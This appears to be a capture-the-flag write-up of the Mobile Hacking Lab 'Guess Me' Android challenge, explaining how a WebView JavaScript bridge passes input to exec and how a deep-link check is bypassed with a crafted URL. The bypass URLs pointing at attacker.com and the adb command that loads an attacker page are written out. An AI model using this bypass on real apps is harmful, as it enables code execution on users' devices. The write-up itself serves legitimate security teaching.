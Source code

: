 ```yaml
---
title:  "Mobile Hacking Lab Guess Me Writeup"
date:   2024-01-22T16:40:00-0400
categories:
  - writeup
tags:
  - android
  ---
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for Guess Me challenge from Mobile Hacking Lab. 

## Static Analysis
When the application is opened, the user is greeted with a guessing game. When the randomly determined number is known correctly, no action is taken other than writing a congratulatory message on the screen.

Let's analyse code with jadx.
![](/assets/images_mhl_guessme/2.png)

We have onl-y 2 activities.

![](/assets/images_mhl_guessme/3.png)

During the MainActivity code analysis, it is seen that if the info button on the home page is pressed, it sends an intent for another activity (WebviewActivity), unlike other buttons.

## WebviewActivity Analysis

![](/assets/images_mhl_guessme/4.png)

For the webview created in the WebviewActivity activity, javascript code execution is first activated and then the MyJavaScriptInterface class is added to the webview object as a javascript interface with the name "AndroidBridge". This means that methods in the MyJavaScriptInterface class with @JavascriptInterface notation can be called from within the webview.
After the settings of the Webview object are made, the loadAssetIndex and handleDeepLink methods are called.

![](/assets/images_mhl_guessme/5.png)

In the loadAssetIndex method, the index.html file in the assets folder is loaded to be displayed in the webview.

![](/assets/images_mhl_guessme/6.png)

When the index.html file is examined, as mentioned, the current time is printed on the screen by calling the getTime function via the interface called AndroidBridge.

![](/assets/images_mhl_guessme/7.png)

In the handleDeepLink method, the data sent with the intent is processed and displayed in the webpage webview. It can be seen from the manifest file in the first screenshot that the WebviewActivity activity can be triggered with intent.
The URL obtained with the incoming intent is sent to the isValidDeepLink method to be checked. According to these controls,

- Url scheme: must be mhl or https.
- Url host: mobilehackinglab
- The parameter named “url” to be sent within the URL must end with the text “mobilehackinglab.com”.

After these checks, if it is a valid connection, the function returns the data in the "url" parameter. Then, by calling the loadDeepLink method with the URL received with the intent, the relevant web page is opened in the webview.

## Finding Vulnerability and Exploitation

If the methods in the AndroidBridge interface, which can be called from within the Webview, are examined closely, a problem is noticed.

![](/assets/images_mhl_guessme/8.png)

The argument sent to the getTime function, that is, the "Time" variable, is given as an argument to the exec function without any checking and the code is executed. Here, with any command sent to the getTime function, code execution can be performed on the target device with the permissions of the application. In order to do this, we need to upload our own malicious html file to the application. In order for our own file to be uploaded, the url in the intent we will send must be able to bypass the checks in the application.

```
https://mobilehackinglab?url=attacker.com
```

If a link address like this is sent with intent, the check will not be bypassed because the value in the url parameter does not end with “mobilehackinglab.com”.

```
-	https://mobilehackinglab?url=attacker.com#mobilehackinglab.com
-	https://mobilehackinglab?url=attacker.com&test=mobilehackinglab.com
-	…

```

In case of trying to bypass the control in the above ways, the control cannot be bypassed because the "url" parameter will be taken as attacker.com while parsing the url. It would be useful to analyze the source code of the "getQueryParameter" function used when getting the URL parameter.

[![](/assets/images_mhl_guessme/9.png)](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier#Syntax)


[![](/assets/images_mhl_guessme/10.png)](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=1724;bpv=0;bpt=1)

In this function, the parameters are separated into their parts with the "&" sign, and then the relevant values are obtained by separating them with the "=" sign. Before the fragmentation process, the query part of the given link address is retrieved with the getEncodedQuery method.

![](/assets/images_mhl_guessme/11.png)

According to the information given in the source code. It returns the part between the "?" and "#" signs. This situation can also be seen when the details of the code are examined.

![](/assets/images_mhl_guessme/12.png)

As seen here, the url “?” It is divided starting from the question mark and the remaining part after the question mark is returned as the query part.

To bypass the check, a link address like this can be used:

```
https://mobilehackinglab?url=attacker.com?hack=mobilehackinglab.com
```

Although it is an incorrect URI in terms of Uri syntax, it successfully bypasses the checks and allows attacker.com to be loaded into the webview. Here is the situation that causes the checks to be skipped:
- While the Uri is divided into parts, the query part will be taken from the first question mark and will be returned as "url=attacker.com?hack=mobilehackinglab.com".
- Then, when dividing the query text into parameters, the url parameter will be accepted as “attacker.com?hack=mobilehackinglab.com” since there is no “&” sign in the query.
- Since the resulting query parameter contains the text "mobilehackinglab.com" at the end, the check will be bypassed.
- Finally, the loadDeepLink function tries to load the "attacker.com?hack=mobilehackinglab.com" value in the "url" parameter and attacker.com is loaded.

Python http server code created for the attack:

![](/assets/images_mhl_guessme/13.png)

HTML page that allows us to send commands to the GetTime function:

![](/assets/images_mhl_guessme/14.png)

The adb command used to test the attack:

```
adb shell am start -n com.mobilehackinglab.guessme/.WebviewActivity -d https://mobilehackinglab?url=10.0.3.2?hack=mobilehackinglab.com
```

Result:

![](/assets/images_mhl_guessme/15.png)


Thanks for reading! See you in next writeups 👋🏻👋🏻
